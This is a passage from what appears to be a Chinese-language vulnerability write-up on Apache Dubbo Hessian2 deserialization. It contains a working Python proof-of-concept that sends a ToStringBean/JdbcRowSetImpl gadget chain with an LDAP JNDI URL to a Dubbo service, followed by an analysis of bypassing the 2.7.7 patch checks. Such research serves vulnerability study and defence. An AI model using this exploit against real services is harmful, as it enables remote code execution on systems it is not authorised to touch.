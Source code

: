 ```python
# -*- coding: utf-8 -*-
#pip3 install dubbo-py
from dubbo.codec.hessian2 import Decoder,new_object
from dubbo.client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8085/GQOsPFQU",
      strMatchColumns=["foo"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
service_name='org.apache.dubbo.spring.boot.demo.consumer.DemoService',
method_name='sayHello',
service_version='1.0.0',
args=[toStringBean])
```



#### 2.7.7补丁绕过分析

低版本DecodeableRpcInvocation.decode如下：

![image-20250208211854161](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250208211854161.png)

2.7.7版本内DecodeableRpcInvocation增加了一个if判断，判断失败会抛出IllgalArgumentException

![image-20250210194934806](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210194934806.png)

RpcUtils.isGenericCall()对比了method参数是否和`INVOKE`常量或者`INVOKE_ASYNC`常量的值相同

![image-20250210194946386](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210194946386.png)

![image-20250210195027789](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210195027789.png)

RpcUtils.isEcho也是类似

![image-20250210195003228](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210195003228.png)

![image-20250210195055837](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250210195055837.png)

